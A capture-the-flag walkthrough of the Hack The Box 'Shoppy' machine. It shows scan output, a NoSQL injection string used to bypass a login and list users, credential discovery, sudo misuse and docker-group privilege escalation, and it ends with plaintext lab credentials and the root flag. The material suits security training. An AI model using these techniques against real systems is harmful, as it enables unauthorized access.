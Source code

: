 ## NMAP

```shell
┌──(kali㉿kali)-[~]
└─$ nmap -sV htb
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 02:08 EST
Nmap scan report for htb (10.129.20.15)
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.84 seconds
```

## GOBUSTER

```shell
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://shoppy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/27 02:12:11 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/LogIn                (Status: 200) [Size: 1074]
/LOGIN                (Status: 200) [Size: 1074]
Progress: 220482 / 220561 (99.96%)===============================================================
2022/11/27 02:27:16 Finished
===============================================================

```

Additional vhost enumeration:

```shell
gobuster vhost -u <ip> -w <big wordlist from seclists> --append-domain --domain shoppy.htb
```

This reveals that `mattermost` virtual host is also available!


Quick summary:

1) Bypass login on shoppy.htb via NoSQL (MongoDB) injection `admin' || '1' == '1` in the login username
2) Find password hash of a user in the database by querying in the search field with the same query or similar to `admin' || '1'=='1` as this will find all users in the database because it's always true
3) Find service on port 9093 using nmap and try executing a curl. It seems like a mattermost site is active somewhere.
4) Find `mattermost.shoppy.htb` using gobuster vhost mode (with domain append flag) and a good wordlist from seclist. It is behind a proxy and requires a vhost name in `/etc/hosts` to make it work. The IP is the same as `shoppy.htb`.
5) Check discussions on mattermost and find the password for the user `jaeger`. SSH into the same IP with his credentials.
6) Look for readable files in `/home/deploy`, another user. There is a password-manager binary. 
7) Reverse engineer the binary using radare2 disassembly or other techniques to find the master password 
8) Check `sudo -l` to see that the user `jaeger` can actually run the password manager on behalf of the user `deploy` so go ahead and read the `deploy` user credentials via sudo.
9) Switch to `deploy` user, notice he's in `docker` group. Check images, notice there is an alpine image available. 
10) Simply use the Docker-Alpine privilege escalation at  https://gtfobins.github.io/gtfobins/docker/#shell

## Login Bypass with Injection

The http://shoppy.htb/login page is subject to injection as the `'` charachter causes an error. Some usernames can be attempted to bypass the authentication. Unfortunately no SQL injection works so maybe it's a NoSQL database.

The https://book.hacktricks.xyz/pentesting-web/nosql-injection page has many NoSQL strings that can be attempted. Multiple attempts must be done to discover that the string  `admin' || '1' == '1` is valid to bypass the authentication. The DB is probably MongoDB.

## Research of Password Hashes

The search field in http://shoppy.htb can be used for injections too. Using the same string as the login 

Access Mattermost as Josh

```
user: josh
password: remembermethisway
```

Access SSH as Jaeger

```
username: jaeger 
password: Sh0ppyBest@pp!
```

root flag:
3ab6c0171f67ff20a7239f0f1d19549d
